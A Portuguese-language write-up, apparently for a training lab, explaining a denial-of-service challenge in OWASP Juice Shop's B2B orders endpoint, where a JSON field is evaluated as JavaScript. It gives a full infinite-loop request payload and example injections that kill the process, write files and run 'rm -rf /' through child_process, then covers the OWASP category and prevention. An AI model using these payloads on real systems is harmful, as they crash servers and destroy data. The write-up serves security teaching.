 # **Denial of Service (DoS)**.

---

## 🔥 Como funciona essa vulnerabilidade?

1. **A API tem um endpoint (`/rest/b2b/orders`) que recebe dados em JSON.**

2. Ela aceita um campo chamado `orderLinesData`, que **é avaliado como código JavaScript** no servidor.

3. Em vez de validar e tratar a entrada como simples texto ou JSON, o backend utiliza uma biblioteca (`notevil`) para **interpretar dinamicamente a string recebida como código JS**.

4. Isso permite que o atacante envie **funções, loops, chamadas a objetos globais**, etc.

---

## 🚨 Por que isso é perigoso?

* Se não houvesse proteções, seria possível executar:

  ```json
  "orderLinesData": "process.exit()"
  ```

  → Derruba o servidor.

* Ou ainda:

  ```json
  "orderLinesData": "require('fs').writeFileSync('/tmp/hack.txt','Hacked!')"
  ```

  → Escreve arquivos no servidor.

* Ou:

  ```json
  "orderLinesData": "require('child_process').execSync('rm -rf /')"
  ```

  → Executa comandos do sistema operacional.

---

## ⚡ Por que o payload causou **DoS**?

Seu payload:

```json
{
  "cid": "JS0815DE",
  "orderLines": [
    {
      "productId": 8,
      "quantity": 500,
      "customerReference": "PO0000001"
    }
  ],
 "orderLinesData": "(function(){for(;;){};})()"

}
```

codigo de ataque:
```js
"orderLinesData": "(function(){for(;;){};})()"
```



* Entra em um **loop infinito**, que faria o servidor gastar CPU indefinidamente.
* Isso **bloquearia a thread de execução** do Node.js, travando requisições de outros usuários.
* No Juice Shop, existe uma proteção no `notevil` que interrompe a execução após detectar loops infinitos.

---

## 📚 Qual vulnerabilidade OWASP é essa?

➡️ **A deserialização insegura** (OWASP Top 10 – **A08:2021 – Software and Data Integrity Failures**)
➡️ Também se relaciona com **Insecure Deserialization** e **Remote Code Execution (RCE)**.

Como você executou um código malicioso que pode causar **DoS**, é um exemplo de:

✅ **Insecure Deserialization → Remote Code Execution (RCE) → Denial of Service (DoS)**

---

## 🛡️ Como prevenir?

✅ **Nunca interpretar dados do usuário como código** (`eval`, `Function`, `notevil`, etc.)
✅ **Usar tipagem forte e validação de entrada**
✅ **Desabilitar execução de código arbitrário em bibliotecas**
✅ **Implementar timeouts e sandboxing rigoroso**

---
